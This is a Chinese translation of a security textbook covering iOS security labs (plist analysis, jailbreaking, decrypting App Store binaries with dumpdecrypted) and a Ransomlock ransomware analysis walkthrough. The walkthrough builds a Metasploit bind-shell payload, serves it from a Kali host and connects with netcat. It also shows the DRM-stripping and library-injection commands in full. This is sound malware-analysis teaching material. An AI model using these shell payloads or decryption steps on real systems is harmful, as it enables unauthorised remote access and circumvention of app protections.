苹果的移动操作系统 iOS 在 2017 年第一季度的移动操作系统格局中排名第二，市场份额为 14.7%，数据来源是 IDC 的《全球季度手机追踪器》。11 iOS 运行在多种 Apple 设备上，包括 iPhone、iPad 和 iPod。与 Android 的开放理念不同，iOS 仅用于 Apple 产品，这确保了更严格受控的生态系统。正因如此，加上对 iOS 应用程序的严格审查，Apple 应用商店中几乎没有恶意软件，任何可疑或远离可疑的违反 Apple 政策的内容都会被标记并从商店中移除。然而，仍然有针对 iOS 的商业间谍软件工具可用，例如臭名昭著的 Pegasus 间谍软件，它利用三个不同的漏洞来危及 iPhone 的安全性并监控受感染的用户。12

## iOS 安全性

iOS 多年来不断发展，成为当今最安全的移动设备平台之一。它包含一个全面的安全堆栈，从底层开始涵盖手机安全的所有方面：硬件、应用程序隔离、数据加密和漏洞缓解。

在本节中，我们将更深入地了解其中一些安全机制，因为它们为理解 iOS 威胁格局提供了基础。

## 安全启动

在启动过程中安全地初始化操作系统是构建安全可信平台的前提。如果无法确保未被篡改的启动过程，我们就无法信任操作系统提供和强制执行的任何安全机制。为解决这个问题，所有现代操作系统都利用硬件功能来确保在操作系统代码之前执行的代码以及操作系统代码本身均未被篡改。这种验证使用代码签名来完成，并允许代码


检查并验证即将运行的代码的Apple签名的每个步骤。

启动过程从执行Boot ROM代码开始，该代码在制造过程中已�录到物理芯片中，并包含Apple的根证书颁发机构公钥。该密钥用于验证启动过程中执行的所有代码（例如，引导加载程序、基带固件、内核和内核模块）均已由Apple签名。由于在Boot ROM之前没有任何代码执行，因此该代码需要被隐式信任；然而，由于它是物理印刻在芯片上的，这是一种可接受的风险。安全启动是攻击者试图越狱手机并完全控制设备时可以针对的最低级别之一。

## 加密与数据保护

iOS利用原生硬件加密功能提供快速且安全的加密操作。iOS使用带有256位密钥的高级加密标准（AES）对内存芯片上的数据进行加密，从而提供全盘加密。全盘加密可保护数据免受拥有设备物理访问权限但无法运行代码的攻击者的攻击。

Apple还使用数据保护技术来解决攻击者能够在设备上运行代码的问题。该技术允许开发人员使用自定义加密密钥加密应用程序数据，并在发生泄露时安全销毁这些密钥。这些应用程序特定密钥的访问控制由操作系统管理，以便在设备上同时运行的恶意应用程序无法访问另一个应用程序的密钥，从而防止恶意应用程序读取私有数据。

2015/2016年，由于FBI-Apple加密诉讼，Apple的加密在媒体上受到广泛讨论。¹³ 这场针对Apple的诉讼集中于执法机构在访问用于犯罪活动的设备上的加密数据时面临的问题，以及法院和执法机构强制制造商协助解锁和访问此类设备上加密数据的能力。尽管FBI设法找到一家有能力绕过此保护的公司，但这仍然表明，像这样的保护需要专门的资源才能绕过。

## 应用程序沙箱

应用程序沙箱是一种安全机制，用于隔离在同一系统上运行的不同应用程序的执行环境。在使用沙箱隔离的环境中，破坏一个应用程序不应破坏或以任何方式影响其他沙箱环境。这种隔离是通过对系统资源进行细粒度访问控制实现的。沙箱应用程序需要明确声明其正常运行所需的系统权利。以下是应用程序可以请求访问的部分可用权利类别：

- 硬件访问 对摄像头、麦克风和USB等资源的访问
- 网络连接 发送和接收网络流量的权限
- 应用程序数据 对日历、联系人和位置等资源的访问
- 用户文件 访问图片、下载和音乐等用户文件夹的权限

任何尝试访问在项目定义中未明确请求的沙箱资源的行为都会被操作系统在运行时拒绝。

## iOS应用程序

iOS应用程序存档（.ipa扩展名）的格式和结构与Android APK类似。两者都是带有自定义文件扩展名的ZIP存档，包含应用程序正常运行所需的所有文件。如下面的十六进制转储所示，IPA存档的魔术字节与典型ZIP头的魔术字节相同：

```
$ hexdump -C -n 4 sample.ipa
00000000 50 4b 03 04 |PK..|
```

应用程序存档包含应用程序的可执行文件、配置文件以及任何数据或图像资源。Apple描述的存档中常见文件类型如下：14

- Info.plist _信息属性列表_文件是AndroidManifest.xml配置文件的iOS版本。它是一个必需的配置文件，包含有关应用程序的信息，例如权限、支持的平台以及其他相关配置文件的名称。
- 可执行文件 包含应用程序代码的必需文件。
- 资源文件 诸如图片和图标之外的其他可选数据文件。这些资源可以针对特定语言或地区进行本地化，或在它们之间共享。
- 支持文件 非资源的其他文件，例如私有框架和插件。

iOS应用程序（如同macOS应用程序一样）通常使用Objective-C或Swift编程语言编写。

Objective-C是一种通用的面向对象编程语言，在Swift于2014年推出之前，它一直是Apple平台上开发应用程序的主要语言。

Swift是Objective-C的继任者，它带来了简单性、速度和类型安全，同时保持与Objective-C和C的兼容性。

## 实验18-1：分析二进制属性列表文件

属性列表文件（.plist）存储层次对象的序列化对象表示，并为开发人员提供了一种轻量级且便携的方式来存储少量数据。这些文件可以包含各种数据类型，包括数组、字典、字符串、数据、整数、浮点值或布尔值。

Plist文件可以以XML或二进制格式存储。由于XML文件可以用任何文本编辑器读取，因此它们易于打开和分析。但是，二进制.plist文件需要先解析或转换为XML格式，然后才能以人类可读的格式显示。

在本实验中，我们分析来自VirusTotal上的恶意文件的一个二进制.plist文件。15 下载iOS应用程序存档后，第一步是使用unzip实用程序解包内容 ①。要识别.plist文件的类型，我们可以使用可用的file实用程序 ②。macOS自带plutil实用程序，它可以在二进制、XML和JSON .plist格式之间进行转换。为此，我们只需将所需格式作为–convert选项的参数指定 ③。以下是将二进制.plist文件转换为XML并读取其内容所需的命令的输出 ④：

```
$ file 98e9e65d6e674620eccaf3d024af1e7b736cc889e94a696885623d146d4fb15f
98e9e65d6e674620eccaf3d024af1e7b736cc889e94a696885623d146d4fb15f: Zip archive data, at least v2.0 to extract
① $ unzip 98e9e65d6e674620eccaf3d024af1e7b736cc889e94a696885623d146d4fb15f
Archive: 98e9e65d6e674620eccaf3d024af1e7b736cc889e94a696885623d146d4fb15f
 inflating: iTunesMetadata.plist
 creating: Payload/NoIcon.app/
...
 inflating: Payload/NoIcon.app/Info.plist
② $ file Payload/NoIcon.app/Info.plist
Info.plist: Apple binary property list
③ $ plutil -convert xml1 Payload/NoIcon.app/Info.plist
$ file Info.plist
Info.plist: XML 1.0 document text, ASCII text
④ $ head Payload/NoIcon.app/Info.plist
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
 <key>BuildMachineOSBuild</key>
 <string>14C109</string>
 <key>CFBundleDevelopmentRegion</key>
 <string>en</string>
 <key>CFBundleDisplayName</key>
 <string>Passbook</string>
```

## 实验18-2：越狱iPhone 4s

在进行iOS研究时，拥有一台越狱的iOS设备（例如iPhone或iPad）很有用。越狱设备将允许我们更轻松地执行任何未签名的代码，并对设备进行插桩。

起步的最便宜设备是iPhone 4s，二手价格约为50美元。4s支持的最新iOS版本是iOS 9.3.5，16 存在半无线越狱。根据绕过安全缓解措施的持久性，存在几种不同的越狱类别17。它们分类如下：

- 无线 这是最持久的越狱类别，因为它即使在设备重新启动后也能绕过安全缓解措施，而无需连接

device to a computer or run the exploit again.

- Semi-untethered 这与非拴式类似，因为它不需要将设备连接到计算机，但在设备重新通电后需要运行漏洞利用程序。
- Tethered 这是持久性最差的越狱类别，因为它只是一个临时绕过。一旦设备重新通电，就会运行之前未修补的内核版本，并且由于越狱状态不一致，可能无法正确工作。
- Semi-tethered 类似于拴式越狱，这也是一个临时绕过，但设备在重新通电并引导至未修补的 iOS 版本后将继续正常工作。

要越狱 iPhone 4s，我们将使用 Phoenix18 越狱工具，按以下步骤操作：

- 1. 在手机上运行越狱应用之前，有必要将 Phoenix4.ipa 和 Cydia Impactor 工具下载并传输到您的桌面操作系统。
- 2. 安装 Cydia Impactor 并将 4s 设备连接到计算机。
- 3. 运行 Cydia Impactor，然后将 Phoenix4.ipa 拖放到 Cydia UI 中。
- 4. 出现提示在手机上安装 IPA 时，输入您的 Apple ID。
- 5. 在手机上，打开“设置 | 通用 | 设备管理”，选择安装期间使用的 Apple ID 配置文件。选择“信任”按钮，以允许在手机上运行已安装的 IPA 应用程序。
- 6. 在手机上启动 Phoenix 应用程序，然后选择“为越狱做准备”、“开始安装”和“使用提供的偏移量”。
- 7. 设备重新启动后，再次启动 Phoenix 应用程序。它现在应该报告以下内容：“您的 iPhone4,2 已越狱。您可以从主屏幕启动 Cydia。”

## Lab 18-3：解密 Apple Store 应用程序

从 Apple App Store 下载的应用程序的代码作为 FairPlay 数字版权管理（DRM）许可的一部分进行加密。这阻止研究人员只是下载应用程序并在指定 iPhone 设备之外分析代码。
要检查可执行文件是否加密，可以使用随 macOS 提供的 otool，并查找 crypt* 参数值。cryptid 值为 1 表示加密的可执行代码，在解密之前无法分析。

```
$ file VLC\ for\ iOS
VLC for iOS: Mach-O 64-bit executable arm64
$ otool -arch all -Vl VLC\ for\ iOS | grep crypt
    cryptoff 16384
    cryptsize 23412736
    cryptid 1
```

获取实际应用程序代码的最简单方法是从越狱手机中提取其已解密版本。我们将使用 Stefan Esser 开发的 dumpdecrypted 工具。19 该工具通过将动态库注入应用程序的地址空间，直接从内存中读取已解密内容，并将其写入磁盘。本实验中要解密的应用程序是适用于移动平台的 VLC 播放器，可在 iTunes 上获取。20

首先，我们使用 iproxy21 通过 USB 设置 SSH，并使用 SSH 连接到 iPhone 设备 ①。接下来，确保我们拥有 VLC 应用程序文件夹的正确位置 ②。要将 dumpdecrypted 工具注入 VLC，我们使用 DYLD_INSERT_LIBRARIES 环境变量指示加载器将额外库插入 VLC 的地址空间 ③。工具保存内存转储后，我们可以检查 *.decrypted 文件 ④。

```
osx$ iproxy 2222 22
osx$ ssh root@localhost -p 2222
root@localhost's password:
```

```
iPhone-4s:~ root# ls /var/containers/Bundle/Application/EA56F383-AC2E-4BB7-ACD8-F0750A7AA641/VLC\ for\ iOS.app/ iTunesArtwork iTunesMetadata.plist
```

```
iPhone-4s:~ root# cd tools/
iPhone-4s:~/tools root# DYLD_INSERT_LIBRARIES=dumpdecrypted.dylib /private/var/containers/Bundle/Application/EA56F383-AC2E-4BB7-ACD8-F0750A7AA641/VLC\ for\ iOS.app/VLC\ for\ iOS
mach-o decryption dumper

DISCLAIMER: This tool is only meant for security research purposes, not for application crackers.

[+] detected 32bit ARM binary in memory.
[+] offset to cryptid found: @0x1000ecc88(from 0x1000ec000) = ca8
[+] Found encrypted data at address 00004000 of length 23412736 bytes - type 1.
[+] Opening /private/var/containers/Bundle/Application/EA56F383-AC2E-4BB7-ACD8-F0750A7AA641/VLC
for iOS.app/VLC for iOS for reading.
[+] Reading header
[+] Detecting header type
[+] Executable is a plain MACH-O image
[+] Opening VLC for iOS.decrypted for writing.
[+] Copying the not encrypted start of the file
[+] Dumping the decrypted data into the file
[+] Copying the not encrypted remainder of the file
[+] Setting the LC_ENCRYPTION_INFO->cryptid to 0 at offset ca8
[+] Closing original file
[+] Closing dump file
```

```
iPhone-4s:~/tools root# ls
VLC\ for\ iOS.decrypted dumpdecrypted.dylib
```

我们可以使用 sftp 从手机下载转储的有效载荷：

```
osx$ sftp -P 2222 root@localhost
sftp> get tools/VLC\ for\ iOS.decrypted
```

要确保我们确实解密了代码，可以再次使用 otool 查看 cryptid 值，它现在应该为 0，以指示未受保护的文件：

```
$ file VLC\ for\ iOS.decrypted
VLC for iOS.decrypted: Mach-O 64-bit executable arm64
```

```
$ otool -arch all -Vl VLC\ for\ iOS.decrypted | grep crypt
VLC for iOS.decrypted:
cryptoff 16384
cryptsize 23412736
cryptid 0
```

此时，我们拥有可用于分析的实际可执行代码，可以使用常用的二进制分析工具之一，例如 IDA、Binary Ninja、Hopper、GNU 项目调试器（GDB）或 LLDB 调试器，以及在 Android 部分讨论的恶意软件分析方法。

## 摘要

随着消费者采用新技术并将其融入生活，恶意软件作者正在改变其方法并迁移到这些技术。作为一种无处不在的设备，智能手机使互联网随时可用，日益成为恶意软件关注的焦点。试图窃取个人数据的木马、试图允许攻击者访问设备的后门以及试图为其作者创造收入的广告软件，只是移动世界中存在的部分潜在威胁。

Android 和 iOS 恶意软件分析与逆向工程大多遵循传统的 Windows 恶意软件分析方法，但也带来了一些新挑战。了解特定平台的生态系统和设计差异，将使您能够高效分析应用程序并确定任何恶意意图。随着恶意软件将其重点转向新技术，恶意软件研究人员必须跟进并开发适当的分析工具和技术。

## 进一步阅读

- Android 应用程序签名过程 developer.android.com/tools/publishing/app-signing.html
- Android 清单简介 developer.android.com/guide/topics/manifest/manifest-intro.html
- Android Studio https://developer.android.com/studio/index.html
- App 沙盒，Apple 开发者 https://developer.apple.com/app-sandboxing/
- Binary Ninja https://binary.ninja/
- Cydia Impactor www.cydiaimpactor.com/
- “揭秘安全隔 enclave 处理器” https://www.blackhat.com/docs/us-16/materials/us-16-Mandt-Demystifying-The-The-Secure-Enclave-Processor.pdf
- DEX 文件格式 source.android.com/devices/tech/dalvik/dex-format.html
- Droidbox，GitHub https://github.com/pjlantz/droidbox
- GDB：GNU 项目调试器，GNU.org https://www.gnu.org/software/gdb/
- Hopper v4 https://www.hopperapp.com/
- “IDA：关于，”Hex-Rays，https://www.hex-rays.com/products/ida/index.shtml
- iOS 应用逆向工程 https://github.com/iosre/iOSAppReverseEngineering
- “无需越狱的 iOS 插桩” https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2016/october/ios-instrumentation-without-jailbreak/
- Jarsigner 文档 docs.oracle.com/javase/7/docs/technotes/tools/windows/jarsigner.html
- LLDB 调试器 https://lldb.llvm.org/
- Phoenix https://phoenixpwn.com/download.php
- Sublime 的 Smali 语法高亮 github.com/strazzere/sublime-smali
- 各种编辑器的 Smali 语法高亮 sites.google.com/site/lohanplus/files/
- SmsManager API 文档 developer.android.com/reference/android/telephony/SmsManager.html
- Android Auto-SMS 研究 www.symantec.com/connect/blogs/study-android-auto-sms
- TaintDroid appanalysis.org/index.html

## 各种 Android 分析工具：

- code.google.com/p/droidbox/
- github.com/honeynet/apkinspector/
- code.google.com/p/androguard/
- bitbucket.org/androguard/community/
- code.google.com/p/android-apktool/
- github.com/tracer0tong/xmlprinter
- bitbucket.org/mstrobel/procyon/
- github.com/Storyyeller/Krakatau/
- developer.android.com/tools/devices/emulator.html
- code.google.com/p/smali/
- varaneckas.com/jad/
- www.android-decompiler.com/

- VirusTotal www.virustotal.com/

## 参考文献

- 1. “管理 APK 文件”，Google，https://support.google.com/googleplay/android-developer/answer/113469#apk
- 2. “意图和意图过滤器，API 指南，Android 开发者”，https://developer.android.com/guide/components/intents-filters.html。
- 3. “Android 开发者参考”，https://developer.android.com/index.html
- 4. dex2jar，GitHub，https://github.com/pxb1988/dex2jar。
- 5. “JD 项目”，Java 反编译器，http://jd.benow.ca/。


- 6. JEB，PNF 软件，https://www.pnfsoftware.com/jeb2/。

- 7. “JEB 订阅”，JEB，PNF 软件，https://www.pnfsoftware.com/jeb2/buy。

- 8. DAD，Androguard，GitHub，https://github.com/androguard/androguard/tree/master/androguard/decompiler/dad。

- 9. Androguard，GitHub，https://github.com/androguard/androguard。

- 10. Smali，https://github.com/JesusFreke/smali/wiki。

- 11. “2017 年第一季度智能手机操作系统市场份额”，IDC，https://www.idc.com/promo/smartphone-market-share/os。

- 12. “所以，你听说过 Pegasus 和 Trident 了吗？现在你应该怎么做”，Lookout 博客，2016 年 9 月 2 日，https://blog.lookout.com/pegasus-trident-cio-ciso-what-to-do/pegasus-trident-ios-update。

- 13. “FBI—Apple 加密纠纷”，维基百科，https://en.wikipedia.org/wiki/FBI%E2%80%80%93Apple_encryption_dispute。

- 14. “包结构”，包编程指南，Apple 开发者，https://developer.apple.com/library/content/documentation/CoreFoundation/Conceptual/CN101-SW1。

- 15. Virus Total，https://www.virustotal.com/#/file/98e9e65d6e674620eccaf3d024af1e7b736cc889e94a

- 16. “iOS 版本历史：iOS 9”，维基百科，https://en.wikipedia.org/wiki/IOS_version_history#iOS_9。

- 17. “越狱”，iPhone 维基，https://www.theiphonewiki.com/wiki/Jailbreak。

- 18. Phoenix，https://phoenixpwn.com/。

- 19. Stefan Esser，“转储已解密”，GitHub，2011–2014，https://github.com/stefanesser/dumpdecrypted。

- 20. VideoLAN，“VLC 移动版”，iTunes 预览，https://itunes.apple.com/us/app/vlc-for-mobile/id650377962。

- 21. “通过 USB 的 SSH”，iPhone 开发者维基，http://iphonedevwiki.net/index.php/SSH_Over_USB#SSH_over_USB_using_usbmu:

## 拆解勒索软件

本章将拆解一种称为*勒索软件*的独特恶意软件家族。除非向创建者支付赎金，否则此恶意软件能够控制系统。

在本章中，我们将介绍以下主题：

- 勒索软件的历史
- 支付赎金的方式
- Ransomlock 的动态分析与静态分析
- 内存中的解码
- 反调试检查
- 控制桌面
- 识别并分析 Wannacry 加密

### 勒索软件的开端

勒索软件是一种独特的恶意软件家族，能够完全控制一台机器，直到受害者支付赎金。为了增加获利机会，恶意程序会伪装成来自合法来源（例如执法机构），声称最终用户因访问未经授权的网站而被抓获，因此需要支付违规费用。其他欺骗最终用户的策略包括展示伪造的 Windows 产品激活界面，要求受害者因检测到特定欺诈行为而付费以重新激活系统。通常，不法分子会设置一个支付赎金的过期期限，迫使受害者在感染后立即汇款。关于勒索软件的优秀 Symantec 视频可在本章末尾的“进一步阅读”部分中找到。

勒索软件根据其操纵数据的方式，可分为以下几种不同类型：

- 加密程序 一种会加密用户数据的勒索软件，实际上将其作为人质，直到受害者决定用金钱换取解密密钥。
- 锁定程序 一种利用各种技术防止用户与操作系统交互的勒索软件。在这种情况下，操作系统被作为人质；磁盘上的用户数据不会被恶意软件修改。
- 泄露软件（曝光软件） 与前两类不同，攻击者在前两类中无法访问数据，而泄露软件通常使用远程管理工具窃取受害者的数据。随后，攻击者威胁如果不支付赎金就公布这些数据。

这种恶意软件并不新鲜。第一款使用加密技术的勒索软件名为“艾滋病特洛伊木马”，由 Joseph Popp 博士创建，并记录于 1989 年左右。当时，这一恶意软件家族的名称略有不同：它被称为“加密病毒勒索”。艾滋病特洛伊木马加密了硬盘上的所有文件，并要求受害者向 PC Cyborg Corporation 支付 189 美元。Popp 被捕后表示，他赚到的钱将用于支持艾滋病研究。

艾滋病特洛伊木马使用对称密钥加密信息。由于密钥嵌入在二进制文件中，因此轻松恢复加密文件。后来，研究人员 Adam Young 和 Moti Yung 通过实现公钥加密技术修复了这一问题。这样，文件使用公钥加密，一旦支付赎金，用于解密数据的相应私钥就会提供给受害者。在这种情况下，无法找到解密所需的密钥，从而改进了勒索攻击。

由于勒索软件很受欢迎，此类恶意软件蔓延到其他平台，并在 2014 年中发现了第一款专为 Android 设备设计的勒索软件：Simplelocker。

### 支付赎金的方式

从不法分子的角度来看，收款时保持匿名是最重要的。这就是为什么这里提到的支付方式会随着时间的推移而演变：

- 高价短信 这是一种发送付款的简便方法，但也很容易追踪接收方。受害者只需发送一条短信即可恢复其计算机。
- 在线现金支付提供商 这种支付方式不需要使用信用卡。受害者可以前往最近的本地提供商，用现金购买一些积分以获取特定代码来花钱。此代码会发送给不法分子，以便恢复机器。在此情况下，了解收款方的唯一方法是逆向分析该恶意软件。一些知名的在线现金提供商包括 Ukash、MoneyPak 和 Paysafecard。
- 比特币 比特币被描述为数字现金，并被视为一种数字货币（因为它不被视为真正的货币），是一种点对点支付方式，在过去几个月中备受关注。由于比特币可以直接在个人之间转移，因此追踪发送方和接收方要困难得多，使得不法分子从其恶意行为中牟利变得前所未有地容易。


注意 在考虑支付赎金之前，建议您咨询最近的技术支持人员，尝试重新控制您的数据。

现在您已经了解勒索软件的工作原理，让我们拆解几个示例以了解其内部工作原理。

### 拆解 Ransomlock

在处理勒索软件时，大多数情况下动态分析是无效的。这是因为一旦运行它，您的桌面就会被恶意软件控制，因此您将无法查看监控工具的日志或结果。但是，在运行恶意软件后，您可以使用许多技巧来恢复机器，以便访问监控结果。在本节中，我们将查看属于锁定程序勒索软件家族并实现该类勒索软件典型技术的 Ransomlock 恶意软件示例。


注意 本章中的练习作为示例而非实验提供，因为执行这些练习需要一个恶意二进制文件。

### 示例 19-1：动态分析


注意 本节中将分析的 Ransomlock 示例的 MD5 哈希值为 ED3AEF329EBF4F6B11E1C7BABD9859E3。

Ransomlock 会锁定屏幕，但不会尝试终止任何进程或拒绝机器的网络访问。因此，作为分析人员，我们可以在虚拟机 (VM) 中留一个后门，以便随时终止恶意进程并恢复对受感染系统的控制。让我们看看这是如何工作的：

- 1. 我们需要创建一个绑定 shell 以获取对受感染机器的远程访问。可以在 Kali 机器上使用 Metasploit 来实现，如下所示，并确保将 RHOST 更改为您的 IP。由于未定义端口，默认端口将是 4444。


msfpayload windows/shell_bind_tcp RHOST=192.168.184.134 X > malo.exe
cp malo.exe /var/www/GH5/
现在，通过浏览 http://<kali-IP>/GH5/malo.exe 将 malo.exe 下载到受害机器上。

- 2. 在 Kali 上运行 netcat 以等待远程 shell，然后在受害机器上运行 malo.exe。在这里，你可以看到已接收到 Windows shell：
- root@kali:/var/www/GH5# nc 192.168.184.134 4444
- Microsoft Windows [Version 6.1.7601]
- Copyright (c) 2009 Microsoft Corporation. All rights reserved.
- C:\Users\Public\Downloads>

- 3. 启动 Procmon 并设置过滤器以仅监控 locker.exe。选择 Filter | Filter...
- 然后创建条件“进程名称为 locker.exe”，如下所示。单击 Add
- 然后单击 Apply。


- 4. 运行恶意软件。几秒钟后，屏幕将被一种类似俄语的语言的消息锁定，如下所示。由于未安装语言包，你会看到许多奇怪的字符。但是，消息的内容与此练习无关。


- 5. 要通过终止恶意进程来解锁屏幕，请转到步骤 2 中获得的 shell，运行 tasklist /v | find locker.exe，然后终止它（假设 locker.exe 的 PID 为 1508）：

```
C:\Users\Public\Downloads\Tools>pskill 1508
pskill 1508
```

PsKill v1.15 - Terminates processes on local or remote systems
Copyright (C) 1999-2012 Mark Russinovich
Sysinternals - www.sysinternals.com

Process 1508 killed.

- 6. 杀死所有恶意进程后，桌面应该会被解锁，你可以查看 Procmon 或任何其他动态分析工具的结果。
- 将桌面返还给受害者的另一种方法是从远程 shell 启动 explorer.exe（该进程在恶意软件控制机器之前已被杀死）。


CAUTION 杀死 locker.exe 并不意味着系统已被清理。
此步骤的目的仅是为了在感染后解锁屏幕以分析恶意软件。

我们已完成对远程 shell 的使用，现在返回 VM 中的 Windows，此时它应该已经被解锁：

- 1. 详细查看 Procmon 结果。你可以看到恶意软件正在搜索 taskkill.exe（它可能被用来杀死 explorer.exe）。它还似乎试图查找自定义 DLL，例如 NATIONA_PARK23423.DLL 和 HERBAL_SCIENCE2340.DLL，但无法从此工具中找到太多细节。

- 2. 运行 Sysinternals 的 Autoruns 工具并转到 Logon 选项卡，如下所示。在这里，你可以看到恶意软件将在每次重新启动时执行，因为 explorer 值已添加到 Run 键下，并且通过更改 Winlogon\\Shell 键将默认 shell 设置为 locker.exe（通常，explorer.exe 是预期值）。这样一来，Ransomlock 会在最终用户登录后立即接管。

| 全部 | 登录 | Explorer | Internet Explorer | 计划任务 | 服务 | 驱动程序 |
|---|---|---|---|---|---|---|
| 自动运行项 | 描述 | 映像路径 | | | | |
| HKCU\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon\\Shell | | | | | | |
| [x] C:\\Users\\...\\Downloads\\locker.exe | | c:\\Users\\...\\downloads\\locker.exe | | | | |
| HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run | | | | | | |
| [x] explorer | | c:\\Users\\...\\downloads\\locker.exe | | | | |

因此，我们现在对恶意软件的行为有了更好的了解。然而，我们还远未理解其内部运作机制。动态分析适合快速浏览，因为有时它会提供足够的信息来理解关键点。
然而，我们仍然不知道屏幕是如何被锁定的，恶意软件是否会尝试连接到命令和控制（C2）服务器，或者是否对受感染机器造成了其他损害。通过调试恶意程序并使用 IDA 进行静态分析，可以更好地理解这些不同的问题——在进行深度恶意软件分析时，这是一种完美的组合。

## Example 19-2: 静态分析


NOTE 本节将分析的 Ransomlock 样本的 MD5 哈希值为 ED3AEF329EBF4F6B11E1C7BABD9859E3。

通常，勒索软件以使用复杂的混淆、反调试、反反汇编和反虚拟机技术而闻名，旨在使恶意软件的内部运作机制非常难以理解。


NOTE 在本章中，术语 *解码* 将用作去混淆、解包或解密的同义词。

因此，我们有两个目标：

- • 了解用于避免检测、调试和虚拟化的“反”技术（如果有的话）。

- • 了解用于接管我们桌面的技术。完成此示例后，我们应该能够回答诸如以下问题：为什么我的鼠标和键盘停止工作了？为什么所有窗口都消失了？为什么通过调试器运行恶意软件无效？

## 内存中的解码

我们将再次使用之前练习中使用的 locker.exe 二进制文件，因此请在 VM 中的 Immunity Debugger 中打开它。如果你直接按 F9 运行，出于某种原因桌面不会被锁定，可能是由于一些反调试检查。让我们找出原因。当我们使用调试器重新打开它时，我们会停在以下入口点：

```
004042C2 PUSH EBP
004042C3 MOV EBP,ESP
004042C5 AND ESP,FFFFFFFF
004042C8 SUB ESP,34
004042CB PUSH EBX
004042CC PUSH ESI
004042CD PUSH EDI
004042CE PUSH locker.004203F8
004042D3 PUSH 64
004042D5 PUSH locker.00420558
004042DA PUSH locker.00420404
004042DF PUSH locker.00420418
004042E4 PUSH locker.0042042C
004042E9 CALL DWORD PTR DS : [<&KERNEL32.GetPrivateProfileStringA>]
```

这些指令只是伪装成正常操作的无意义代码。如果我们继续单步进入代码（使用 F7），最终会发现有几十行重复的代码在解码新的指令集。下面是一个很好的示例：

```
004044A4    MOV EDX,DWORD PTR DS:[420240]
004044AA    MOV ESI,DWORD PTR DS:[420248]
004044B0    XOR EDX,ESI
004044B2    MOV DWORD PTR DS:[420240],EDX
004044B8    MOV EDX,DWORD PTR DS:[4203F4]
004044BE    MOV ESI,DWORD PTR DS:[420240]
004044C4    ADD DWORD PTR DS:[EDX],ESI
004044C6    MOV EDX,DWORD PTR SS:[ESP+30]
004044CA    MOV ESI,DWORD PTR SS:[ESP+34]
004044CE    XOR EDX,ECX
004044D0    ADD EDX,EAX
004044D2    MOV DWORD PTR DS:[420248],EDX
```

我们可以看到，数据段中偏移量 0x420240 和 0x420248 的双字在某些计算后正在被修改。整个二进制文件中会多次找到这种解码指令，单步进入每条指令会非常乏味且耗时。因此，我们需要找到一种方法跳过这些指令，直接到达有助于我们理解恶意软件行为的有趣代码。

加快分析速度的一个好策略是查找对运行时生成地址的调用。通常，在解码步骤完成后才能找到这些地址；这样的指令位于地址 0x00401885：

```
00401885 FF D0 [1] CALL EAX;
```


NOTE 在分析过程中值得牢记的一件事是，前一条指令位于基地址 0x00400000 的相对地址 0x1885 处。

让我们单步进入这条指令以查看 EAX 的值。我们可以在 0x00401885 处设置断点，一旦执行到该指令，我们会发现 EAX 的值等于 0x0041FD12，它位于资源（.rsrc）部分。

在按 F7 单步进入调用之前，请务必删除任何断点（通过按 ALT-B 获取断点列表并使用 DELETE 按钮），因为调试器在内部将命令的第一个字节更改为 0xCC（这告诉调试器在该指令处停止）。因此，而不是原始 opcode 为 FF D0 [1]，内存中的值已更改为 CC D0。稍后，恶意软件会将这些指令复制到新位置，从而破坏下一条要执行的指令。当我们删除断点时，被调试器更改的字节会恢复到其原始值。这就是恶意软件将自身复制到其他内存位置的原因之一——为了携带断点，这些断点会破坏下一次执行命令中的


round.

一旦我们移除断点并按下 F7，我们将跳转到地址 0x0041FD12。从那里，我们遵循相同的策略来查找类似 CALL <寄存器> 的命令。在接下来的命令中，我们将在这里找到一个：

```
0041FD78 FFD0 CALL EAX
```

通过单步进入前面的调用，我们跳转到一个新的地址空间。在此示例中，EAX 现在等于 0x002042C2。以下是此偏移处的一些指令内容：

```
002042C2 PUSH EBP
002042C3 MOV EBP,ESP
002042C5 AND ESP,FFFFFFF8
002042C8 SUB ESP,34
002042CB PUSH EBX
002042CC PUSH ESI
002042CD PUSH EDI
002042CE PUSH 2203F8
002042D3 PUSH 64
002042D5 PUSH 220558
002042DA PUSH 220404
002042DF PUSH 220418
002042E4 PUSH 22042C
002042E9 CALL DWORD PTR DS:[20F018] ; kernel32.GetPrivateProfileStringA
```

如果你还没有注意到，这段代码与入口点显示的代码相同，只是位置不同，正如预期的那样。让我们再次应用我们的公式来查找 CALL EAX，即 base_address + 0x1885（在此例中，0x00200000 + 0x1885）。就在那里——我们又在预期的偏移处找到了该指令：

```
00201885 FFD0 CALL EAX
```

这一次，在运行时 EAX 等于 0x0021FD12，因此在单步进入此调用后，我们得到以下指令：

```
0021FD12 PUSH EBP
0021FD13 MOV EBP,ESP
0021FD15 AND ESP,FFFFFFF8
0021FD18 SUB ESP,30
0021FD1B PUSH ESI
0021FD1C PUSH EDI
0021FD1D MOV DWORD PTR SS:[ESP+2C],0
0021FD25 MOV DWORD PTR SS:[ESP+34],0
0021FD2D LEA EAX,DWORD PTR SS:[ESP+18]
0021FD31 PUSH EAX
0021FD32 PUSH DWORD PTR SS:[EBP+1C]
0021FD35 PUSH DWORD PTR SS:[EBP+18]
0021FD38 PUSH DWORD PTR SS:[EBP+14]
0021FD3B PUSH DWORD PTR SS:[EBP+10]
0021FD3E PUSH DWORD PTR SS:[EBP+C]
0021FD41 PUSH DWORD PTR SS:[EBP+8]
0021FD44 CALL 0021D0DB
0021FD49 MOV EAX,DWORD PTR SS:[EBP+1C]
0021FD4C MOV DWORD PTR SS:[ESP+C],EAX
0021FD50 MOV EAX,DWORD PTR SS:[ESP+2C]
0021FD54 TEST EAX,EAX
0021FD56 JE 0021FDF1
0021FD5C MOV EAX,DWORD PTR SS:[ESP+34]
0021FD60 TEST EAX,EAX
0021FD62 JE 0021FDF1
```

